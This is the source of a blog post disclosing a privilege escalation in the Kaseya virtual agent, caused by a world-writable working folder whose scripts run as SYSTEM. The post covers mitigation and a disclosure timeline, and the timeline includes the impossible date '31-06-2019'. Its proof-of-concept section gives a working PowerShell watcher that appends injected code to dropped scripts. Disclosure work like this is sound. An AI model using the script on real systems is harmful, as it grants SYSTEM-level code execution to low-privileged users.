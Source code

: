 ```yaml
---
layout: post
category: publish
title: Kaseya privilege escalation
---
```


<h3>Introduction</h3>
<p>
So this is the first time I've written about a security issue I've found.
I decided to write about this as the vendor was unresponsive and looking their product CVEs it seems to be a
common place. The other reason is that if an organisation is using this product, most of their machines are at risk. 

So I give you Kaseya virtual agent.
</p>

<h3>Product</h3>
<h4>Windows 10. Agent version <= 9.5</h4>
<p>
Kaseya virtual agent provides a web application interface for managing and monitoring IT assets via its deployed agents.
Its a competitor for Microsoft system centre and has a small portion of the market when compared with other vendors.
The agent itself looks to be a several tools bundled together instead of a dedicated agent leveraging host capabilities such as PowerShell, WScript as well as a couple of binaries like curl which are dropped.
</p>
  
<h3>Vulnerability</h3>
<p>
This is not really a new issue as such but more an extension of <a href="https://www.securityfocus.com/archive/1/541884/30/300/threaded">CVE-2017-12410</a> found by Filip Palian.
Where a fix was put in place for the original issue it was specific to binaries and not scripts.
The root cause for both issues is a low privileged group with excessive permissions to a folder used by a elevated process.

The Kaseya agent runs as SYSTEM by default.
The agent also has a default working folder @ <code class="highlighter-rouge">c:\kworking</code>.
It will pull scripts and binaries to this folder and execute them from disk from the controlling web application.
By default the <code class="highlighter-rouge">Authenticated Users</code> group has all rights to this folder.

Scripts are written to disk however they are not checked for integrity prior to execution.
So a folder can be monitored for script files being dropped and then append malicious code prior to execution.
</p>

<h3>Impact</h3>
<p>
Given that the Kaseya virtual agent is an asset management tool, if the agent is deployed on a single machine within an organisation there is a good chance it has been deployed across the majority of the systems. The vulnerability itself is reliant on code execution within the working folder and depends on scheduled tasks or ad-hoc script execution from the web interface, so the wait time can vary.

So this is case by case based on script usage via agents within the organisation.
</p>

<h3>Proof of concept</h3>
This PowerShell script will use a file monitor against the default working directory.
When a ps1 script drops it will then append the command "Write-Host 'injected content'" which will run as SYSTEM.

<pre>
  <code>
      $folder = 'c:\kworking' 
      $filter = '*.ps1'                          

      $filesystem = New-Object IO.FileSystemWatcher $folder, $filter -Property @{IncludeSubdirectories = $false;NotifyFilter =  [IO.NotifyFilters]'FileName, LastWrite'}

      Register-ObjectEvent $filesystem Created -SourceIdentifier FileCreated -Action { 
          $path = $Event.SourceEventArgs.FullPath 
          "`nWrite-Host 'injected content'" | Out-File -Append -FilePath $path -Encoding utf8 
          Unregister-Event FileCreated
      }
  </code>
</pre>

Change the Write-Host command to the code to be executed or update the script to target other script drops such as vb script.
</p>

<h3>Mitigation</h3>
<p>
All scripts should be signed and verified prior to execution eliminating the ability to append arbitrary commands. Additionally Kaseya should remove the excessive privileges on the working directory. 
Removing <code class="highlighter-rouge">Authenticated Users</code> permissions to write/append would be another step forward though I am unsure of the impact of the Kaysea product.
</p>

<h3>Timeline</h3>
<ul>
  <li>16-06-2019 :: Issue found</li>
  <li>18-06-2019 :: security@ emailed requesting steps to disclose</li>  
  <li>30-06-2019 :: CERT contacted due to non response of vendor from official email address</li>
  <li>31-06-2019 :: CERT still unable to contact vendor</li>
  <li>07-07-2019 :: CERT makes contact with vendor. Discover security@ address is not monitored by vendor</li>
  <li>20-08-2019 :: Vendor confirms receipt of details</li>
  <li>27-08-2019 :: Email sent indicating intention to disclose due to lack of response</li>
</ul>
